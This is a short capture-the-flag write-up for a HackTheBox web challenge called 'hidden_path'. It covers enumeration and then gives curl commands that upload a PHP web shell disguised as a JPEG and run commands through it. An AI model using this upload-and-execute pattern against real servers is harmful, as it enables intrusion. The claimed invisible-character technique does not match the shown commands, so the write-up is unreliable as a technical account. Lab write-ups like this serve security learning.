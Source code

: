 # Day16 - hidden_path

- **Platform**: HackTheBox  
- **Category**: Web  
- **Difficulty**: Easy  
- **Date**: 2025-05-16  
- **Tools Used**: WhatWeb, Gobuster, BurpSuite, curl  

---

## Summary
The challenge involved identifying hidden/invisible characters in request handling. By URL encoding these characters and manipulating POST methods, I was able to bypass filters and uncover the hidden functionality that led to the flag.

---

## Enumeration
1. **Passive Recon**  
   - Ran `whatweb`, `dig`, and reviewed code comments.  
   - Found endpoints including `/verification`, `/uploads/`, `/static/images/`, and `/admin`.  

2. **Active Recon**  
   - Used Gobuster for directory discovery.  
   - Leveraged BurpSuite to crawl and analyze JavaScript/XHR requests.  
   - Observed unusual handling of requests suggesting the presence of invisible characters.  

---

## Exploitation
- Crafted a POST request with hidden characters, URL-encoded to bypass restrictions.  
- Example workflow using curl:  
  ```bash
  curl -F "file=@shell.php.jpg;type=image/jpeg" \
       http://TARGET/verification

  curl "http://TARGET/uploads/shell.php.jpg?cmd=id"
  ```
- Successfully exploited the hidden path behavior and retrieved the flag.  

---

## Lessons Learned
- Invisible or non-printable characters can create hidden paths and bypass filters in web applications.  
- Always test encoding variations (URL encoding, Unicode, etc.) when an endpoint behaves unexpectedly.  
- Combining enumeration tools with careful payload crafting is key to discovering hidden attack vectors.  
